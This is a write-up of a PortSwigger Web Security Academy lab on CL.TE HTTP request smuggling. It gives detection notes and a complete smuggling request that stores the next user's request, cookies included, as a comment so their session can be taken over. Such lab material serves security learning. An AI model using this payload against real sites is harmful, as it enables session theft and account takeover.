

# [Lab: Exploiting HTTP request smuggling to capture other users' requests](https://portswigger.net/web-security/request-smuggling/exploiting/lab-capture-other-users-requests)

## Lab

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

To solve the lab, smuggle a request to the back-end server that causes the next user's request to be stored in the application. Then retrieve the next user's request and use the victim user's cookies to access their account.

## Detected CL.TE

- burpsuite active scan: detected http request smuggling
- burpsuite `HTTP request smuggler` extension: detected CL.TE
- smuggler.py: `[tabprefix1]   : Potential CLTE Issue Found`

## Analysis

post comment function:

  ```http
  POST /post/comment HTTP/1.1

  csrf=uSrOXyGsr0GDgDojiDSSOLGLrR1EWiLz&postId=4&comment=test&name=test&email=lkj%40jhglk&website=
  ```

## Solutions

we use request smuggling to induce victim to post comment with the content is the victim's HTTP headers:

```http
POST / HTTP/1.1^M$
Host: 0a9e00ee030f6ad5c0d44f18005200eb.web-security-academy.net^M$
Content-Type: application/x-www-form-urlencoded^M$
Content-Length: 313^M$
tRANSFER-ENCODING: chunked^M$
^M$
0^M$
^M$
POST /post/comment HTTP/1.1^M$
Host: 0a9e00ee030f6ad5c0d44f18005200eb.web-security-academy.net^M$
Cookie: session=wiener_session^M$
Content-Type: application/x-www-form-urlencoded^M$
Content-Length: 777^M$
^M$
csrf=wiener_csrf&postId=1&name=test&email=lkj%40jhglk&website=&comment= 
```

wait for about 1 minute without sending any requests, then go to the comments section:


